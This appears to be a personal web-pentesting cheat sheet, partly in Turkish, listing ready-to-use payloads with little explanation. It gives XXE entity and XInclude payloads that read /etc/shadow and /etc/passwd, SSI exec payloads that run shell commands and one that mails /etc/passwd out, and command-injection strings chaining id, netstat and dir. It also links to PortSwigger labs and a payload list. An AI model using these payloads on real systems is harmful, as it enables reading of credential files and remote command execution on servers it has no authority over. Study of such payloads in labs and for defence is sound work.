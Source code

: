 ## XML

```jsx
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

```jsx
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>

-----------------------------------------------------------
XInclude attacks
When you can't modify the DOCTYPE element use the XInclude to target

<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

[https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list)

Görsel eklerken de olabiliyor PortSwigger lablarına bak 

[PortSwigger Wiki](https://www.notion.so/PortSwigger-Wiki-a1ac7b0555aa4d2894508c51b993f3a2?pvs=21)

## SSI

.shtml gibi dosyaların olduğu yerde çalışır.

```jsx
<!--#exec cmd="/bin/ls /" --><br/>
<!--#exec cmd="cat /etc/passwd" --><br/>
<!--#exec cmd="find / -name *.* -print" --><br/>
<!--#exec cmd="mail Florian Roth @4nc4p <mailto:Florian Roth @4nc4p> < cat /etc/passwd" --><br/>
```

## Code Injection

```jsx
#Unix ve Windows birlikte
ls||id; ls ||id; ls|| id; ls || id
ls|id; ls |id; ls| id; ls | id
ls&&id; ls &&id; ls&& id; ls && id
ls&id; ls &id; ls& id; ls & id
ls %0A id                           # %0A Execute both (RECOMMENDED)

Unix
;id;
;id
;netstat -a;
|id
|/usr/bin/id
|id|

Windows
| dir
; dir
```